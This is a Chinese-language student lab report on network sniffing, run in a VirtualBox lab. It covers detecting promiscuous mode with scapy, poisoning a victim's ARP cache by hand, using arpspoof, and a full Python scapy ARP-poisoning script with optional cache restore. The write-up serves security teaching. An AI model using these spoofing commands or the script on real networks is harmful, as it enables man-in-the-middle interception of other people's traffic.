

# 实验四 网络监听

## 实验环境

- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali Rolling 2022.3
- 网关（Gateway, GW）：Debian 10
- 靶机（Victim）：kali 2022.3

## 实验目的

- 了解ARP投毒过程
- 熟悉scapy的使用

## 网络拓扑

- 本次实验网络环境基于第一章实验，并将attacker_kali添加到内网 intnet1 中，使三台机器连接在同一个内部网络中 。


如图所示网络中的节点基本信息如下：

- 攻击者主机kali-attacker
  - 08:00:27:24:fa:f1 / eth2
  - 172.16.111.106
- 受害者主机kali-victim
  - 08:00:27:57:cb:42 / eth0
  - 172.16.111.136
- 网关Gateway
  - 08:00:27:3e:f2:0b / enp0s9
  - 172.16.111.1

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy
```

- 输入scapy，查看是否安装成功：

## 实验过程

### 实验一：检测局域网中的异常终端

- **混杂模式**，英文名称为Promiscuous **Mode**，它是指一台机器能接收所有经过它的数据流，而不论数据流中包含的目的地址是否是它自己，此模式与非混杂模式相对应。

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:57:cb:42 brd ff:ff:ff:ff:ff:ff

```


```bash

# 在攻击者主机上开启 scapy,需要sudo（不然好像发不出去）
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行（其中 IP 地址为受害者主机 IP）
pkt = promiscping("172.16.111.136")
```


```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:57:cb:42 brd ff:ff:ff:ff:ff:ff
```


```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.136")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```


- 对比两次结果，发现在受害者主机开启<u>混杂模式</u>后，攻击者主机就检测到了受害者混杂模式的开启。
- 通过在 kali-victim 上用 wireshark 抓包可以发现：
  - 创建数据包的时候使用的是ICMP()，故抓到的包属于ICMP包；
  - `promiscping`采用ARP协议自动构建数据包并发送。
  - 

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```bash
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:24:fa:f1
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:24:fa:f1
#      psrc= 172.16.111.106
#      hwdst= 00:00:00:00:00:00
#      pdst= 172.16.111.1
```


```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 08:00:27:3e:f2:0b

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.136
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.136", hwdst="08:00:27:24:fa:f1")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```


但是发现地址并没有改变，将<u>sendp</u>改为<u>send</u>之后再次执行上述操作：

```
send(arpspoofed)

```


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 172.16.111.106 dev eth0 lladdr 08:00:27:24:fa:f1 STALE
# 172.16.111.1 dev eth0 lladdr 08:00:27:24:fa:f1 REACHABLE 
```

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:3e:f2:0b", pdst="172.16.111.136", hwdst="08:00:27:24:fa:f1")
sendp(restorepkt1, count=100, inter=0.2)
```


受害者主机恢复 ARP 缓存记录：


```bash
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="172.16.111.1", hwdst="08:00:27:3e:f2:0b", psrc="172.16.111.136", hwsrc="08:00:27:24:fa:f1")
sendp(restorepkt2, count=100, inter=0.2)
```


此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```


### 实验三：使用自动化工具完成 ARP 投毒劫持实验

- arpspoof工具用于完成ARP投毒劫持

```
sudo arpspoof -i eth0 -t 172.16.111.136<想要劫持的目标主机> 172.16.111.1<想要伪装成的主机ip>
```

### 实验四：基于 scapy 编写 ARP 投毒劫持工具

```bash
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from scapy.all import ARP, Ether, get_if_hwaddr, sendp,srp
from scapy.layers.l2 import getmacbyip

def get_mac(target_ip):
	'''
	use getmacbyip function to get target Ip's MAC address
	'''
	target_mac = getmacbyip(target_ip)
	if target_mac is not None:
		return target_mac
	else:
		print("无法获取IP为：%s 主机的MAC地址，请检查目标IP是否存活"%target_ip)
		
def create_arp_target(src_ip,src_mac,target_ip,target_mac):
	'''
    生成ARP数据包，伪造网关欺骗目标计算机
    src_mac:本机的MAC地址，充当中间人
    target_mac:目标计算机的MAC
    src_ip:要伪装的IP，将发往网关的数据指向本机（中间人），形成ARP攻击
    target_ip:目标计算机的IP
    op=is-at,表示ARP响应
	'''
	pkt = Ether()/ARP(op=2,psrc=src_ip,hwsrc=src_mac,pdst=target_ip,hwdst=target_mac)
	return pkt
	
def create_arp_gateway(gateway_ip):

	pkt = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst=gateway_ip)
	return pkt
	
def main():
	src_ip = "172.16.111.106"
	interface="eth0"
	src_mac = get_if_hwaddr(interface)
	print('本机IP地址是：', src_ip)
	print('本机MAC地址是:',src_mac)
	target_ip="172.16.111.136"
	target_mac=get_mac(target_ip)
	print("目标计算机IP地址是：", target_ip)
	print("目标计算机MAC地址是：", target_mac)
	gateway_ip = "172.16.111.1"
	arpbroadcast = create_arp_gateway(gateway_ip)
	# 发送这个 ARP 广播请求
	recved = srp(arpbroadcast, timeout=2)
	# 网关 MAC 地址如下
	gateway_mac = recved[0][0][1].hwsrc
	print("网关MAC地址是：", gateway_mac)
	arpspoofed = create_arp_target(gateway_ip,src_mac,target_ip,src_mac)
	sendp(arpspoofed)
	choice = input("是否恢复受害者主机ARP缓存(y/n):")
	if choice == 'y':
		restorepkt1=create_arp_target(gateway_ip,gateway_mac,target_ip,target_mac)
		sendp(restorepkt1,count=10,inter=0.1)
		restorepkt2=create_arp_target(target_ip,target_mac,gateway_ip,gateway_mac)
		sendp(restorepkt2,count=10,inter=0.1)
		
	
if __name__=='__main__':
	main()
```

## 问题与解决办法

- pkt发包发不出去

  - 在主机上开启 scapy,需要sudo，`sudo scapy`

- 在使用sendp发送 ARP 响应数据包到受害者主机后，发现受害者主机中的相应地址并未改变，参考网上及哥姐的报告，将sendp改为send即可

  - 

    但是发现地址并没有改变，将<u>sendp</u>改为<u>send</u>之后再次执行上述操作：

    ```
    send(arpspoofed)
    ```

    

    此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

## 参考链接

- [实验 · 网络安全 (c4pr1c3.github.io)](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [哥姐的作业](https://github.com/CUCCS/2021-ns-public-Tbc-tang/blob/chap0x04/0x04.md)

- [(41条消息) 【网络攻防】ARP欺骗实验__清风来叙的博客-CSDN博客](https://blog.csdn.net/XiaoYuHaoAiMin/article/details/106396902)
- [实验三：利用arpspoof进行ARP攻击与欺骗 - Apricity，你好 (liukai.asia)](https://www.liukai.asia/archives/203.html)
- [实验四：Python scapy实现一个简易arp攻击脚本 - 简书 (jianshu.com)](https://www.jianshu.com/p/df5918069612?u_atoken=bf5e5341-2fdf-4551-934c-17b700c0e14b&u_asession=01Qja5WpUm9t6hi2rU1mnb_f2_yHMRjDYJh5xXVkd_yRw8leCu2JDOTU8s9CaYGQeJX0KNBwm7Lovlpxjd_P_q4JsKWYrT3W_NKPr8w6oU7K9BHt23RhhuWmXgHugOeLppg0pn3tpfEcqG8HZmzd6q3mBkFo3NEHBv0PZUm6pbxQU&u_asig=05rrPm76RQqjWrSUU-YKll2njqEXlDmKO21A187ob3L0k9xav9ntxf08MTaXTcT1-Msuqoy65i1XXbmyXTJExhAskJJnGte_1PasYZ-j5gdtTZwLaJf66lUPZ5mpSjHVfG5LUBtgXf7o-M6Lz4GD0EXoJ7IIb8CaGllntumR8Z5xP9JS7q8ZD7Xtz2Ly-b0kmuyAKRFSVJkkdwVUnyHAIJzSFTlXiHmqKq8FdPyBG-rvfSBWIsRafxv42SpH3c43wO6xaDswPo-3_59so9Oh9f1-3h9VXwMyh6PgyDIVSG1W_ZgNGcEl87NWdoGPAWUmz-VXrT7CQcHezRbafxxA6rCSuJIojGkCzk8HeXo18RvrqtJKzSGw8-4H4E8oeAr93LmWspDxyAEEo4kbsryBKb9Q&u_aref=zDS%2BjnIrVhbvx9NGqbHzO4yM8PA%3D)
- [(41条消息) kali没有安装arpspoof及“E：无法定位软件包问题”、GPG错误：由于没有公钥，无法验证下列签名：NO_PUBKEY...._sf9090的博客-CSDN博客_kali安装arpspoof](https://blog.csdn.net/sf9090/article/details/103198373)